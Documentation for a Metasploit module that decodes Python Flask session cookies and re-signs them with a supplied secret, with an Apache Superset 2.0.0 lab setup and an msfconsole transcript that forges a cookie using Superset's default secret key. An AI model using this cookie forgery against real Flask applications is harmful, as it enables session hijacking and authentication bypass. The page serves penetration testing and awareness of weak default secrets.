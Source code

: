 ## Vulnerable Application

This is a generic module which can manipulate Python Flask-based application cookies.
The Retrieve action will connect to a web server, grab the cookie, and decode it.
The Resign action will do the same as above, but after decoding it, it will replace
the contents with that in NEWCOOKIECONTENT, then sign the cookie with SECRET. This
cookie can then be used in a browser. This is a Ruby based implementation of some
of the features in the Python project Flask-Unsign.

### Example Application

Apache Superset can be used since it is based on Flask.

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/python_flask_cookie_signer`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a decoded cookie

## Actions

### Retrieve

Retrieve a cookie from an HTTP(s) server

### Resign

Resign the specified cookie data

## Options

### TARGETURI

The URI which gives a cookie. Redirects are NOT followed.

### NEWCOOKIECONTENT

When action is set to `Resign`, the content of the decoded cookie will be replaced with this content.

### SECRET

When action is set to `Resign`, the cookie is signed with this secret.


## Scenarios

### Apache Superset 2.0.0

```
msf6 > use auxiliary/gather/python_flask_cookie_signer
msf6 auxiliary(gather/python_flask_cookie_signer) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(gather/python_flask_cookie_signer) > set RPORT 8088
RPORT => 8088
msf6 auxiliary(gather/python_flask_cookie_signer) > set TARGETURI /login
TARGETURI => /login
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] 192.168.159.128:8088 - Retrieving Cookie
[*] 192.168.159.128:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDU2N2U1ZDJmYmU1NDIyOTRlMzFhODU5YWFiMjQ5MTcwMDcyNTNhMyIsImxvY2FsZSI6ImVuIn0.ZPoc7Q.y_slNhIvS7PDX1gKMYpBS1nW0L0
[*] 192.168.159.128:8088 - Decoded Cookie: {"csrf_token"=>"d567e5d2fbe542294e31a859aab24917007253a3", "locale"=>"en"}
[*] Auxiliary module execution completed
msf6 auxiliary(gather/python_flask_cookie_signer) > set NEWCOOKIECONTENT '{"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}'
NEWCOOKIECONTENT => {"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}
msf6 auxiliary(gather/python_flask_cookie_signer) > set SECRET CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
SECRET => CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
msf6 auxiliary(gather/python_flask_cookie_signer) > set ACTION Resign
ACTION => Resign
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] Attempting to sign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 192.168.159.128:8088 - New signed cookie: session=IntcImNzcmZfdG9rZW5cIj0-XCIwOGU1MWRkMWYzNTJkNjc5MGU2YWI5Yjk5ZGFkZDYyMTYwMmI5MTg5XCIsIFwibG9jYWxlXCI9PlwiZnJcIn0i.ZPodFA.4hA6OiYpdxAUoOsA9L7DMTVOZkI
[*] Auxiliary module execution completed
msf6 auxiliary(gather/python_flask_cookie_signer) >
```
